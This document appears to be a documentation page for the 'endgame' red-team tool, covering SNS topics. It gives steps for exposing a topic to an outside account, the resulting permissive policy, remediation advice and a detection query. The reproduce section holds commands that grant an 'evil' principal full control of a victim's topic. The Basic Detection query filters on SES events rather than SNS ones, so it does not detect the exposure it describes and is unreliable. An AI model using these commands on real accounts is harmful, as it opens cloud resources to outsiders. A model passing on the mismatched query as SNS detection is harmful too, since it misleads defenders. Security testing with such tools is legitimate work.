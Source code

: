 # SNS Topics

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service sns --name test-resource-exposure
```

* To verify that the SNS topic has been shared with the evil principal, run the following from the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:sns:us-east-1:111122223333:test-resource-exposure

aws sns get-topic-attributes \
    --topic-arn $VICTIM_RESOURCE
```

* Observe that the contents match the example shown below.

## Example

The output will have the following structure:

```json
{
    "Attributes": {
        "SubscriptionsConfirmed": "1",
        "DisplayName": "my-topic",
        "SubscriptionsDeleted": "0",
        "EffectiveDeliveryPolicy": "",
        "Owner": "111122223333",
        "Policy": "SeeBelow",
        "TopicArn": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure",
        "SubscriptionsPending": "0"
    }
}
```

The prettified version of the `Policy` key is below. Observe how the content of the policy grants the evil principal's account ID (`999988887777`) maximum access to the SNS topic.

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "SNS:AddPermission",
        "SNS:DeleteTopic",
        "SNS:GetTopicAttributes",
        "SNS:ListSubscriptionsByTopic",
        "SNS:Publish",
        "SNS:Receive",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SNS Topics are only shared with trusted accounts, and that the trusted accounts truly need access to the SNS Topic.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to SNS Topics. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SNS Topics**: Tightly control access to the following IAM actions:
      - [sns:AddPermission](https://docs.aws.amazon.com/sns/latest/api/API_AddPermission.html): _Adds a statement to a topic's access control policy, granting access for the specified AWS accounts to the specified actions._
      - [sns:RemovePermission](https://docs.aws.amazon.com/sns/latest/api/API_RemovePermission.html): _Removes a statement from a topic's access control policy._
      - [sns:GetTopicAttributes](https://docs.aws.amazon.com/sns/latest/api/API_GetTopicAttributes.html): _Returns all of the properties of a topic. This includes the resource-based policy document for the SNS Topic, which lists information about who is authorized to access the SNS Topic_
      - [sns:ListTopics](https://docs.aws.amazon.com/sns/latest/api/API_ListTopics.html): _Returns a list of the requester's topics._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' or eventName='DeleteIdentityPolicy')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/add-permission.html)
